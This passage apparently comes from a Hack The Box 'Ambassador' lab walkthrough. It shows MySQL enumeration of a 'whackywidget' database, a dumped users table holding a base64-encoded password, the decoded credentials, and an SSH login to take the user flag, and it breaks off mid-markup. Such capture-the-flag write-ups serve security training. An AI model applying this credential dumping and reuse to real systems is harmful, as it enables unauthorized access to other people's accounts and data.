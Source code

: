 <p align="center">
  <img src="/images/walkthroughs/hackthebox/ambassador/3_0_db.png" width="70%"/>
</p>

Going for a quick enumeration we can see an interesting batabase called _whackywidget_. Checking it's tables we can see one called _users_. Within it we have a user called _developer_ with a base64 password. It could be the one mentioned on the website for the SSH:

```sql
MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+

MySQL [grafana]> use whackywidget;

-- using whackywidget

MySQL [grafana]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

Converting from Base64 we get a new set of credentials that we will try on the SSH:

**developer:anEnglishManInNewYork027468**

And we are in, let's grab the user flag:

<p align="center">